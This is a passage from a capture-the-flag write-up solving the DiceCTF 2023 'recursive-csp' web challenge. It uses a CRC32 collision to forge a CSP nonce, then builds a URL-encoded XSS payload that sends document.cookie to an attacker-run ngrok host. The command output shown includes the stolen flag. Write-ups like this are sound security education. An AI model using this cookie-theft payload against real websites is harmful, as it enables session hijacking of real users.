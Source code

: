 > Note: The XSS payload must less than 128 characters, as the web application will check that.

**Again, find the collided bytes:**
```shell
┌[siunam♥earth]-(~/ctf/DiceCTF-2023/Web/recursive-csp)-[2023.02.08|18:02:33(HKT)]
└> /opt/crc32-file-collision-generator/matchfile target.txt payload.txt
File to match has length 1, CRC32 value f4dbdf21
File to get to match has length 110, CRC32 value 43e6a8bd
Bytes to match: 2f3771c3
c3 71 37 2f 
�q7/
```

**URL encode it:**
```py
    matchedBytes = '%c3%71%37%2f'
```

```shell
┌[siunam♥earth]-(~/ctf/DiceCTF-2023/Web/recursive-csp)-[2023.02.08|18:02:57(HKT)]
└> python3 url_encode_payload.py 
URL encoded Payload:
https://recursive-csp.mc.ax/?name=%3Cscript%20nonce%3D%22f4dbdf21%22%3Edocument.location%3D%22https%3A//2330-{Redacted}.ap.ngrok.io%3F%22%2Bdocument.cookie%3C/script%3E%c3%71%37%2f
```

**Finally, send the above URL to [admin bot](https://adminbot.mc.ax/web-recursive-csp):**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/DiceCTF-2023/images/Pasted%20image%2020230208180401.png)

**Verify it worked:**
```shell
Web Interface                 http://127.0.0.1:4040                                                        
Forwarding                    https://2330-{Redacted}.ap.ngrok.io -> http://localhost:8000             
                                                                                                           
Connections                   ttl     opn     rt1     rt5     p50     p90                                  
                              1       0       0.01    0.00    0.00    0.00                                 
                                                                                                           
HTTP Requests                                                                                              
-------------                                                                                              
                                                                                                           
GET /                          200 OK
```

```shell
┌[siunam♥earth]-(~/ctf/DiceCTF-2023/Web/recursive-csp)-[2023.02.08|17:59:57(HKT)]
└> python3 -m http.server 8000
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
127.0.0.1 - - [08/Feb/2023 18:03:49] "GET /?flag=dice{h0pe_that_d1dnt_take_too_l0ng} HTTP/1.1" 200 -
```
